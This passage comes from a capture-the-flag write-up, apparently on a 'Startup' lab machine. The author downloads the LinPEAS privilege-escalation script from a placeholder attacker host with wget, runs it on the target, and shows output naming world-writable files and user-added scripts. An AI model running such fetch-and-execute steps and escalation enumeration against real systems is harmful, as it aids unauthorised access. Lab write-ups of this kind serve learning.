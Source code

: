 ## Alternative

Alternatively, I also tried to use LinPEAS to find any interesting files that I could use to escalate privileges. I had set a Python HTTP server — this time on my host machine — to download the LinPEAS script.

> LinPEAS is Linux Privilege Escalation Awesome Script. It is a script that enumerates the system looking for misconfigurations that could allow for privilege escalation.

```bash
lennie@startup:~$ wget http://<host_ip>:9999/LinPEAS.sh
--2023-12-29 15:31:49--  http://<host_ip>:9999/LinPEAS.sh
Connecting to <host_ip>:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 847920 (828K) [text/x-sh]
Saving to: ‘LinPEAS.sh’

LinPEAS.sh          100%[===================>] 828.05K   414KB/s    in 2.0s

2023-12-29 15:31:52 (414 KB/s) - ‘LinPEAS.sh’ saved [847920/847920]

lennie@startup:~$ chmod +x LinPEAS.sh ;  ./LinPEAS.sh
```

Some interesting pieces that I found:

```bash
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/etc/print.sh
/home/lennie
/run/cloud-init/tmp
/run/lock
/run/user/1002
/run/user/1002/systemd
/tmp
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/tmux-1002
/tmp/.X11-unix
#)You_can_write_even_more_files_inside_last_directory
```

```bash
╔══════════╣ Executable files potentially added by user (limit 70)
2020-11-12+05:06:53.6932941280 /etc/rc.local.vmimport
2020-11-12+04:53:12.7008125520 /home/lennie/scripts/planner.sh
2020-11-12+04:53:12.6647945530 /etc/print.sh
2020-11-12+04:53:12.6407825540 /incidents/suspicious.pcapng
```

